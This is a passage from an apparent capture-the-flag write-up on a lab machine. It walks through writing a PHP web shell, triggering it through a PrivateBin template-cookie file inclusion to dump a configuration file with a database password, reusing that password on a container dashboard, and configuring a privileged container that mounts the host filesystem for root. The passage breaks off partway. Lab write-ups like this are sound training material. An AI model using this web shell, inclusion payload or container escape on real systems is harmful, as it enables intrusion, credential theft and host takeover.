

Since we had write access to `/privatebin-data/data` we created a `PHP` web shell there.

```shell
ben@kobold:/privatebin-data/data$ echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Now we crafted a malicious request to `PrivateBin` using the `template` cookie to trigger the `LFI` vulnerability and include our web shell. The template path `../data/shell` would resolve to `/privatebin-data/data/shell.php`.

```shell
GET /?cmd=cat+/srv/cfg/conf.php HTTP/1.1
Host: bin.kobold.htb
Cookie: ph_phc_dTOPniyUNU2kD8Jx8yHMXSqiZHM8I91uWopTMX6EBE9_posthog=%7B%22%24device_id%22%3A%22019d11dc-95ff-75cc-8820-2fabd2f00d70%22%2C%22distinct_id%22%3A%22019d11dc-95ff-75cc-8820-2fabd2f00d70%22%2C%22%24sesid%22%3A%5B1774121548074%2C%22019d11dc-9657-722a-a161-9423da5ab3a7%22%2C1774121162324%5D%2C%22%24initial_person_info%22%3A%7B%22r%22%3A%22%24direct%22%2C%22u%22%3A%22https%3A%2F%2Fmcp.kobold.htb%2F%22%7D%7D; template=../data/shell
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive


```

The request executed successfully and returned the `PrivateBin` configuration file contents.

```shell
HTTP/1.1 200 OK
Server: nginx/1.24.0 (Ubuntu)
Date: Sun, 22 Mar 2026 08:22:51 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Vary: Accept-Encoding
Cache-Control: no-store, no-cache, no-transform, must-revalidate
Pragma: no-cache
Expires: Sun, 22 Mar 2026 08:22:51 GMT
Last-Modified: Sun, 22 Mar 2026 08:22:51 GMT
Vary: Accept
Content-Security-Policy: default-src 'none'; base-uri 'self'; form-action 'none'; manifest-src 'self'; connect-src * blob:; script-src 'self' 'wasm-unsafe-eval'; style-src 'self'; font-src 'self'; frame-ancestors 'none'; frame-src blob:; img-src 'self' data: blob:; media-src blob:; object-src blob:; sandbox allow-same-origin allow-scripts allow-forms allow-modals allow-downloads
Cross-Origin-Resource-Policy: same-origin
Cross-Origin-Embedder-Policy: require-corp
Permissions-Policy: browsing-topics=()
Referrer-Policy: no-referrer
X-Content-Type-Options: nosniff
X-Frame-Options: deny
X-XSS-Protection: 1; mode=block
Set-Cookie: template=..%2Fdata%2Fshell; secure; SameSite=Lax
Content-Length: 25888

;<?php http_response_code(403); /*
; config file for PrivateBin
;
; An explanation of each setting can be find online at https://github.com/PrivateBin/PrivateBin/wiki/Configuration.

[main]
; (optional) set a project name to be displayed on the website
; name = "PrivateBin"

; The full URL, with the domain name and directories that point to the
; PrivateBin files, including an ending slash (/). This URL is essential to
; allow Opengraph images to be displayed on social networks.
; basepath = "https://privatebin.example.com/"

; enable or disable the discussion feature, defaults to true
discussion = true

; preselect the discussion feature, defaults to false
opendiscussion = false

; enable or disable the display of dates & times in the comments, defaults to true
; Note that internally the creation time will still get tracked in order to sort
; the comments by creation time, but you can choose not to display them.
; discussiondatedisplay = false

; enable or disable the password feature, defaults to true
password = true

; enable or disable the file upload feature, defaults to false
fileupload = false

; preselect the burn-after-reading feature, defaults to false
burnafterreadingselected = false

; which display mode to preselect by default, defaults to "plaintext"
; make sure the value exists in [formatter_options]
defaultformatter = "plaintext"

; (optional) set a syntax highlighting theme, as found in css/prettify/
; syntaxhighlightingtheme = "sons-of-obsidian"

; size limit per document or comment in bytes, defaults to 10 Megabytes
sizelimit = 10000000

; by default PrivateBin use "bootstrap5" template (tpl/bootstrap5.php).
; Optionally you can enable the template selection menu, which uses
; a session cookie to store the choice until the browser is closed.
templateselection = true

; List of available for selection templates when "templateselection" option is enabled
availabletemplates[] = "bootstrap5"
availabletemplates[] = "bootstrap"
availabletemplates[] = "bootstrap-page"
availabletemplates[] = "bootstrap-dark"
availabletemplates[] = "bootstrap-dark-page"
availabletemplates[] = "bootstrap-compact"
availabletemplates[] = "bootstrap-compact-page"

; set the template your installs defaults to, defaults to "bootstrap5" (tpl/bootstrap5.php), also
; bootstrap template (tpl/bootstrap.php) and it's variants: "bootstrap-dark", "bootstrap-compact", "bootstrap-page",
; which can be combined with "-dark" and "-compact" for "bootstrap-dark-page",
; "bootstrap-compact-page" - previews at:
; https://privatebin.info/screenshots.html
; template = "bootstrap5"

; (optional) info text to display
; use single, instead of double quotes for HTML attributes
;info = "More information on the <a href='https://privatebin.info/'>project page</a>."

; (optional) notice to display
; notice = "Note: This is a test service: Data may be deleted anytime. Kittens will die if you abuse this service."

; by default PrivateBin will guess the visitors language based on the browsers
; settings. Optionally you can enable the language selection menu, which uses
; a session cookie to store the choice until the browser is closed.
languageselection = false

; set the language your installs defaults to, defaults to English
; if this is set and language selection is disabled, this will be the only language
; languagedefault = "en"

; (optional) URL shortener address to offer after a new document is created.
; It is suggested to only use this with self-hosted shorteners as this will leak
; the documents encryption key.
; urlshortener = "https://shortener.example.com/api?link="

; (optional) Whether to shorten the URL by default when a new document is created.
; If set to true, the "Shorten URL" functionality will be automatically called.
; This only works if the "urlshortener" option is set.
; shortenbydefault = false

; (optional) Let users create a QR code for sharing the document URL with one click.
; It works both when a new document is created and when you view a document.
; qrcode = true

; (optional) Let users send an email sharing the document URL with one click.
; It works both when a new document is created and when you view a document.
; email = true

; (optional) IP based icons are a weak mechanism to detect if a comment was from
; a different user when the same username was used in a comment. It might get
; used to get the IP of a comment poster if the server salt is leaked and a
; SHA512 HMAC rainbow table is generated for all (relevant) IPs.
; Can be set to one these values:
; "none" / "identicon" / "jdenticon" (default) / "vizhash".
; icon = "none"

; Content Security Policy headers allow a website to restrict what sources are
; allowed to be accessed in its context. You need to change this if you added
; custom scripts from third-party domains to your templates, e.g. tracking
; scripts or run your site behind certain DDoS-protection services.
; Check the documentation at https://content-security-policy.com/
; Notes:
; - By default this disallows to load images from third-party servers, e.g. when
;   they are embedded in documents. If you wish to allow that, you can adjust the
;   policy here. See https://github.com/PrivateBin/PrivateBin/wiki/FAQ#why-does-not-it-load-embedded-images
;   for details.
; - The 'wasm-unsafe-eval' is used to enable webassembly support (used for zlib
;   compression). You can remove it if compression doesn't need to be supported.
; - The 'unsafe-inline' style-src is used by Chrome when displaying PDF previews
;   and can be omitted if attachment upload is disabled (which is the default).
;   See https://issues.chromium.org/issues/343754409
; - To allow displaying PDF previews in Firefox or Chrome, sandboxing must also
;   get turned off. The following CSP allows PDF previews:
; cspheader = "default-src 'none'; base-uri 'self'; form-action 'none'; manifest-src 'self'; connect-src * blob:; script-src 'self' 'wasm-unsafe-eval'; style-src 'self' 'unsafe-inline'; font-src 'self'; frame-ancestors 'none'; frame-src blob:; img-src 'self' data: blob:; media-src blob:; object-src blob:"
;
; The recommended and default used CSP is:
; cspheader = "default-src 'none'; base-uri 'self'; form-action 'none'; manifest-src 'self'; connect-src * blob:; script-src 'self' 'wasm-unsafe-eval'; style-src 'self'; font-src 'self'; frame-ancestors 'none'; frame-src blob:; img-src 'self' data: blob:; media-src blob:; object-src blob:; sandbox allow-same-origin allow-scripts allow-forms allow-modals allow-downloads"

; Enable or disable the warning message when the site is served over an insecure
; connection (insecure HTTP instead of HTTPS), defaults to true.
; Secure transport methods like Tor and I2P domains are automatically whitelisted.
; It is **strongly discouraged** to disable this.
; See https://github.com/PrivateBin/PrivateBin/wiki/FAQ#why-does-it-show-me-an-error-about-an-insecure-connection for more information.
; httpwarning = true

; Pick compression algorithm or disable it. Only applies to documents & comments
; created after changing the setting.
; Can be set to one these values: "none" / "zlib" (default).
; compression = "zlib"

[expire]
; expire value that is selected per default
; make sure the value exists in [expire_options]
default = "1week"

[expire_options]
; Set each one of these to the number of seconds in the expiration period,
; or 0 if it should never expire
5min = 300
10min = 600
1hour = 3600
1day = 86400
1week = 604800
; Well this is not *exactly* one month, it's 30 days:
1month = 2592000
1year = 31536000
never = 0

[formatter_options]
; Set available formatters, their order and their labels
plaintext = "Plain Text"
syntaxhighlighting = "Source Code"
markdown = "Markdown"

[traffic]
; time limit between calls from the same IP address in seconds
; Set this to 0 to disable rate limiting.
limit = 10

; (optional) Set IPs addresses (v4 or v6) or subnets (CIDR) which are exempted
; from the rate-limit. Invalid IPs will be ignored. If multiple values are to
; be exempted, the list needs to be comma separated. Leave unset to disable
; exemptions.
; exempted = "1.2.3.4,10.10.10/24"

; (optional) If you want only some source IP addresses (v4 or v6) or subnets
; (CIDR) to be allowed to create documents, set these here. Invalid IPs will be
; ignored. If multiple values are to be exempted, the list needs to be comma
; separated. Leave unset to allow anyone to create documents.
; creators = "1.2.3.4,10.10.10/24"

; (optional) if your website runs behind a reverse proxy or load balancer,
; set the HTTP header containing the visitors IP address, i.e. X_FORWARDED_FOR
; header = "X_FORWARDED_FOR"

[purge]
; minimum time limit between two purgings of expired documents, it is only
; checked when documents get created
; Set this to 0 to run a purge every time a document is created.
limit = 300

; maximum amount of expired documents to delete in one purge
; Set this to 0 to disable purging. Set it higher, if you are running a large
; site
batchsize = 10

[model]
; name of data model class to load and directory for storage
; the default model "Filesystem" stores everything in the filesystem
class = Filesystem
[model_options]
dir = PATH "data"

;[model]
; example of a Google Cloud Storage configuration
;class = GoogleCloudStorage
;[model_options]
;bucket = "my-private-bin"
;prefix = "pastes"
;uniformacl = false

;[model]
; example of DB configuration for MySQL
;class = Database
;[model_options]
;dsn = "mysql:host=localhost;dbname=privatebin;charset=UTF8"
;tbl = "privatebin_"    ; table prefix
;usr = "privatebin"
;pwd = "Z3r0P4ss"
;opt[12] = true   ; PDO::ATTR_PERSISTENT

;[model]
; example of DB configuration for SQLite
;class = Database
;[model_options]
;dsn = "sqlite:" PATH "data/db.sq3"
;usr = null
;pwd = null
;opt[12] = true ; PDO::ATTR_PERSISTENT

;[model]
; example of DB configuration for PostgreSQL
;class = Database
;[model_options]
;dsn = "pgsql:host=localhost;dbname=privatebin"
;tbl = "privatebin_"     ; table prefix
;usr = "privatebin"
;pwd = "Z3r0P4ss"
;opt[12] = true    ; PDO::ATTR_PERSISTENT

;[model]
; example of S3 configuration for Rados gateway / CEPH
;class = S3Storage
;[model_options]
;region = ""
;version = "2006-03-01"
;endpoint = "https://s3.my-ceph.invalid"
;use_path_style_endpoint = true
;bucket = "my-bucket"
;accesskey = "my-rados-user"
;secretkey = "my-rados-pass"

;[model]
; example of S3 configuration for AWS
;class = S3Storage
;[model_options]
;region = "eu-central-1"
;version = "latest"
;bucket = "my-bucket"
;accesskey = "access key id"
;secretkey = "secret access key"

;[model]
; example of S3 configuration for AWS using its SDK default credential provider chain
; if relying on environment variables, the AWS SDK will look for the following:
; - AWS_ACCESS_KEY_ID
; - AWS_SECRET_ACCESS_KEY
; - AWS_SESSION_TOKEN (if needed)
; for more details, see https://docs.aws.amazon.com/sdk-for-php/v3/developer-guide/guide_credentials.html#default-credential-chain
;class = S3Storage
;[model_options]
;region = "eu-central-1"
;version = "latest"
;bucket = "my-bucket"

;[shlink]
; - Shlink requires you to make a post call with a generated API key.
;   use this section to setup the API key and URL. In order to use this section,
;   "urlshortener" needs to point to the base URL of your PrivateBin
;   instance with "?shortenviashlink&link=" appended. For example:
;   urlshortener = "${basepath}?shortenviashlink&link="
;   This URL will in turn call Shlink on the server side, using the URL from
;   "apiurl" and the API Key from the "apikey" parameters below.
; apiurl = "https://shlink.example.com/rest/v3/short-urls"
; apikey = "your_api_key"

;[yourls]
; When using YOURLS as a "urlshortener" config item:
; - By default, "urlshortener" will point to the YOURLS API URL, with or without
;   credentials, and will be visible in public on the PrivateBin web page.
;   Only use this if you allow short URL creation without credentials.
; - Alternatively, using the parameters in this section ("signature" and
;   "apiurl"), "urlshortener" needs to point to the base URL of your PrivateBin
;   instance with "?shortenviayourls&link=" appended. For example:
;   urlshortener = "${basepath}?shortenviayourls&link="
;   This URL will in turn call YOURLS on the server side, using the URL from
;   "apiurl" and the "access signature" from the "signature" parameters below.

; (optional) the "signature" (access key) issued by YOURLS for the using account
; signature = ""
; (optional) the URL of the YOURLS API, called to shorten a PrivateBin URL
; apiurl = "https://yourls.example.com/yourls-api.php"

;[sri]
; Subresource integrity (SRI) hashes used in template files. Uncomment and set
; these for all js files used. See:
; https://github.com/PrivateBin/PrivateBin/wiki/FAQ#user-content-how-to-make-privatebin-work-when-i-have-changed-some-javascript-files
;js/privatebin.js = "sha512-[…]"

;<?php http_response_code(403); /*
; config file for PrivateBin
;
; An explanation of each setting can be find online at https://github.com/PrivateBin/PrivateBin/wiki/Configuration.

[main]
; (optional) set a project name to be displayed on the website
; name = "PrivateBin"

; The full URL, with the domain name and directories that point to the
; PrivateBin files, including an ending slash (/). This URL is essential to
; allow Opengraph images to be displayed on social networks.
; basepath = "https://privatebin.example.com/"

; enable or disable the discussion feature, defaults to true
discussion = true

; preselect the discussion feature, defaults to false
opendiscussion = false

; enable or disable the display of dates & times in the comments, defaults to true
; Note that internally the creation time will still get tracked in order to sort
; the comments by creation time, but you can choose not to display them.
; discussiondatedisplay = false

; enable or disable the password feature, defaults to true
password = true

; enable or disable the file upload feature, defaults to false
fileupload = false

; preselect the burn-after-reading feature, defaults to false
burnafterreadingselected = false

; which display mode to preselect by default, defaults to "plaintext"
; make sure the value exists in [formatter_options]
defaultformatter = "plaintext"

; (optional) set a syntax highlighting theme, as found in css/prettify/
; syntaxhighlightingtheme = "sons-of-obsidian"

; size limit per document or comment in bytes, defaults to 10 Megabytes
sizelimit = 10000000

; by default PrivateBin use "bootstrap5" template (tpl/bootstrap5.php).
; Optionally you can enable the template selection menu, which uses
; a session cookie to store the choice until the browser is closed.
templateselection = true

; List of available for selection templates when "templateselection" option is enabled
availabletemplates[] = "bootstrap5"
availabletemplates[] = "bootstrap"
availabletemplates[] = "bootstrap-page"
availabletemplates[] = "bootstrap-dark"
availabletemplates[] = "bootstrap-dark-page"
availabletemplates[] = "bootstrap-compact"
availabletemplates[] = "bootstrap-compact-page"

; set the template your installs defaults to, defaults to "bootstrap5" (tpl/bootstrap5.php), also
; bootstrap template (tpl/bootstrap.php) and it's variants: "bootstrap-dark", "bootstrap-compact", "bootstrap-page",
; which can be combined with "-dark" and "-compact" for "bootstrap-dark-page",
; "bootstrap-compact-page" - previews at:
; https://privatebin.info/screenshots.html
; template = "bootstrap5"

; (optional) info text to display
; use single, instead of double quotes for HTML attributes
;info = "More information on the <a href='https://privatebin.info/'>project page</a>."

; (optional) notice to display
; notice = "Note: This is a test service: Data may be deleted anytime. Kittens will die if you abuse this service."

; by default PrivateBin will guess the visitors language based on the browsers
; settings. Optionally you can enable the language selection menu, which uses
; a session cookie to store the choice until the browser is closed.
languageselection = false

; set the language your installs defaults to, defaults to English
; if this is set and language selection is disabled, this will be the only language
; languagedefault = "en"

; (optional) URL shortener address to offer after a new document is created.
; It is suggested to only use this with self-hosted shorteners as this will leak
; the documents encryption key.
; urlshortener = "https://shortener.example.com/api?link="

; (optional) Whether to shorten the URL by default when a new document is created.
; If set to true, the "Shorten URL" functionality will be automatically called.
; This only works if the "urlshortener" option is set.
; shortenbydefault = false

; (optional) Let users create a QR code for sharing the document URL with one click.
; It works both when a new document is created and when you view a document.
; qrcode = true

; (optional) Let users send an email sharing the document URL with one click.
; It works both when a new document is created and when you view a document.
; email = true

; (optional) IP based icons are a weak mechanism to detect if a comment was from
; a different user when the same username was used in a comment. It might get
; used to get the IP of a comment poster if the server salt is leaked and a
; SHA512 HMAC rainbow table is generated for all (relevant) IPs.
; Can be set to one these values:
; "none" / "identicon" / "jdenticon" (default) / "vizhash".
; icon = "none"

; Content Security Policy headers allow a website to restrict what sources are
; allowed to be accessed in its context. You need to change this if you added
; custom scripts from third-party domains to your templates, e.g. tracking
; scripts or run your site behind certain DDoS-protection services.
; Check the documentation at https://content-security-policy.com/
; Notes:
; - By default this disallows to load images from third-party servers, e.g. when
;   they are embedded in documents. If you wish to allow that, you can adjust the
;   policy here. See https://github.com/PrivateBin/PrivateBin/wiki/FAQ#why-does-not-it-load-embedded-images
;   for details.
; - The 'wasm-unsafe-eval' is used to enable webassembly support (used for zlib
;   compression). You can remove it if compression doesn't need to be supported.
; - The 'unsafe-inline' style-src is used by Chrome when displaying PDF previews
;   and can be omitted if attachment upload is disabled (which is the default).
;   See https://issues.chromium.org/issues/343754409
; - To allow displaying PDF previews in Firefox or Chrome, sandboxing must also
;   get turned off. The following CSP allows PDF previews:
; cspheader = "default-src 'none'; base-uri 'self'; form-action 'none'; manifest-src 'self'; connect-src * blob:; script-src 'self' 'wasm-unsafe-eval'; style-src 'self' 'unsafe-inline'; font-src 'self'; frame-ancestors 'none'; frame-src blob:; img-src 'self' data: blob:; media-src blob:; object-src blob:"
;
; The recommended and default used CSP is:
; cspheader = "default-src 'none'; base-uri 'self'; form-action 'none'; manifest-src 'self'; connect-src * blob:; script-src 'self' 'wasm-unsafe-eval'; style-src 'self'; font-src 'self'; frame-ancestors 'none'; frame-src blob:; img-src 'self' data: blob:; media-src blob:; object-src blob:; sandbox allow-same-origin allow-scripts allow-forms allow-modals allow-downloads"

; Enable or disable the warning message when the site is served over an insecure
; connection (insecure HTTP instead of HTTPS), defaults to true.
; Secure transport methods like Tor and I2P domains are automatically whitelisted.
; It is **strongly discouraged** to disable this.
; See https://github.com/PrivateBin/PrivateBin/wiki/FAQ#why-does-it-show-me-an-error-about-an-insecure-connection for more information.
; httpwarning = true

; Pick compression algorithm or disable it. Only applies to documents & comments
; created after changing the setting.
; Can be set to one these values: "none" / "zlib" (default).
; compression = "zlib"

[expire]
; expire value that is selected per default
; make sure the value exists in [expire_options]
default = "1week"

[expire_options]
; Set each one of these to the number of seconds in the expiration period,
; or 0 if it should never expire
5min = 300
10min = 600
1hour = 3600
1day = 86400
1week = 604800
; Well this is not *exactly* one month, it's 30 days:
1month = 2592000
1year = 31536000
never = 0

[formatter_options]
; Set available formatters, their order and their labels
plaintext = "Plain Text"
syntaxhighlighting = "Source Code"
markdown = "Markdown"

[traffic]
; time limit between calls from the same IP address in seconds
; Set this to 0 to disable rate limiting.
limit = 10

; (optional) Set IPs addresses (v4 or v6) or subnets (CIDR) which are exempted
; from the rate-limit. Invalid IPs will be ignored. If multiple values are to
; be exempted, the list needs to be comma separated. Leave unset to disable
; exemptions.
; exempted = "1.2.3.4,10.10.10/24"

; (optional) If you want only some source IP addresses (v4 or v6) or subnets
; (CIDR) to be allowed to create documents, set these here. Invalid IPs will be
; ignored. If multiple values are to be exempted, the list needs to be comma
; separated. Leave unset to allow anyone to create documents.
; creators = "1.2.3.4,10.10.10/24"

; (optional) if your website runs behind a reverse proxy or load balancer,
; set the HTTP header containing the visitors IP address, i.e. X_FORWARDED_FOR
; header = "X_FORWARDED_FOR"

[purge]
; minimum time limit between two purgings of expired documents, it is only
; checked when documents get created
; Set this to 0 to run a purge every time a document is created.
limit = 300

; maximum amount of expired documents to delete in one purge
; Set this to 0 to disable purging. Set it higher, if you are running a large
; site
batchsize = 10

[model]
; name of data model class to load and directory for storage
; the default model "Filesystem" stores everything in the filesystem
class = Filesystem
[model_options]
dir = PATH "data"

;[model]
; example of a Google Cloud Storage configuration
;class = GoogleCloudStorage
;[model_options]
;bucket = "my-private-bin"
;prefix = "pastes"
;uniformacl = false

[model]
; example of DB configuration for MySQL
; Temporarily disabling while we migrate to new server for loadbalancing
;class = Database
[model_options]
dsn = "mysql:host=localhost;dbname=privatebin;charset=UTF8"
tbl = "privatebin_"    ; table prefix
usr = "privatebin"
pwd = "ComplexP@sswordAdmin1928"
opt[12] = true   ; PDO::ATTR_PERSISTENT

;[model]
; example of DB configuration for SQLite
;class = Database
;[model_options]
;dsn = "sqlite:" PATH "data/db.sq3"
;usr = null
;pwd = null
;opt[12] = true ; PDO::ATTR_PERSISTENT

;[model]
; example of DB configuration for PostgreSQL
;class = Database
;[model_options]
;dsn = "pgsql:host=localhost;dbname=privatebin"
;tbl = "privatebin_"     ; table prefix
;usr = "privatebin"
;pwd = "Z3r0P4ss"
;opt[12] = true    ; PDO::ATTR_PERSISTENT

;[model]
; example of S3 configuration for Rados gateway / CEPH
;class = S3Storage
;[model_options]
;region = ""
;version = "2006-03-01"
;endpoint = "https://s3.my-ceph.invalid"
;use_path_style_endpoint = true
;bucket = "my-bucket"
;accesskey = "my-rados-user"
;secretkey = "my-rados-pass"

;[model]
; example of S3 configuration for AWS
;class = S3Storage
;[model_options]
;region = "eu-central-1"
;version = "latest"
;bucket = "my-bucket"
;accesskey = "access key id"
;secretkey = "secret access key"

;[model]
; example of S3 configuration for AWS using its SDK default credential provider chain
; if relying on environment variables, the AWS SDK will look for the following:
; - AWS_ACCESS_KEY_ID
; - AWS_SECRET_ACCESS_KEY
; - AWS_SESSION_TOKEN (if needed)
; for more details, see https://docs.aws.amazon.com/sdk-for-php/v3/developer-guide/guide_credentials.html#default-credential-chain
;class = S3Storage
;[model_options]
;region = "eu-central-1"
;version = "latest"
;bucket = "my-bucket"

;[shlink]
; - Shlink requires you to make a post call with a generated API key.
;   use this section to setup the API key and URL. In order to use this section,
;   "urlshortener" needs to point to the base URL of your PrivateBin
;   instance with "?shortenviashlink&link=" appended. For example:
;   urlshortener = "${basepath}?shortenviashlink&link="
;   This URL will in turn call Shlink on the server side, using the URL from
;   "apiurl" and the API Key from the "apikey" parameters below.
; apiurl = "https://shlink.example.com/rest/v3/short-urls"
; apikey = "your_api_key"

;[yourls]
; When using YOURLS as a "urlshortener" config item:
; - By default, "urlshortener" will point to the YOURLS API URL, with or without
;   credentials, and will be visible in public on the PrivateBin web page.
;   Only use this if you allow short URL creation without credentials.
; - Alternatively, using the parameters in this section ("signature" and
;   "apiurl"), "urlshortener" needs to point to the base URL of your PrivateBin
;   instance with "?shortenviayourls&link=" appended. For example:
;   urlshortener = "${basepath}?shortenviayourls&link="
;   This URL will in turn call YOURLS on the server side, using the URL from
;   "apiurl" and the "access signature" from the "signature" parameters below.

; (optional) the "signature" (access key) issued by YOURLS for the using account
; signature = ""
; (optional) the URL of the YOURLS API, called to shorten a PrivateBin URL
; apiurl = "https://yourls.example.com/yourls-api.php"

;[sri]
; Subresource integrity (SRI) hashes used in template files. Uncomment and set
; these for all js files used. See:
; https://github.com/PrivateBin/PrivateBin/wiki/FAQ#user-content-how-to-make-privatebin-work-when-i-have-changed-some-javascript-files
;js/privatebin.js = "sha512-[…]"


```



By examining the response we found database credentials embedded in the configuration.

```shell
<--- CUT FOR BREVITY --->
usr = "privatebin"
pwd = "ComplexP@sswordAdmin1928"
<--- CUT FOR BREVITY --->
```

| Username   | Password                 |
| ---------- | ------------------------ |
| privatebin | ComplexP@sswordAdmin1928 |

Remembering the port `3552/TCP` service from our earlier port scan and knowing that `Arcane` is a container management application we attempted to use the `password` with the `default username` on the login form of the `Arcane` application.

- [http://kobold:3552/](http://kobold:3552/)



| Username | Password                 |
| -------- | ------------------------ |
| arcane   | ComplexP@sswordAdmin1928 |

The credentials worked and we gained access to the `Arcane` dashboard.



## Privilege Escalation to root (intended)

### Privileged Container Escape through Arcane

The `Arcane` application allowed managing `Docker` containers and provided options to create new containers with custom configurations. By creating a new privileged container we could mount the host filesystem and gain root access.

```shell
Basic
Container Name: root
Container Image: privatebin/nginx-fpm-alpine:2.0.2
User: root
I/O Settings: Allocate TTY

Volume
Volumen Mount: / : /hostfs

Network & Security
Security Settings: Privileged mode
```

On the `Basic` page we configured to use the already available `image` of `alpine`, allowed to use `TTY` and configured the user to be `root`.



Then on the `Volume` menu we configured the container to mount the host root filesystem at `/hostfs` within the container.

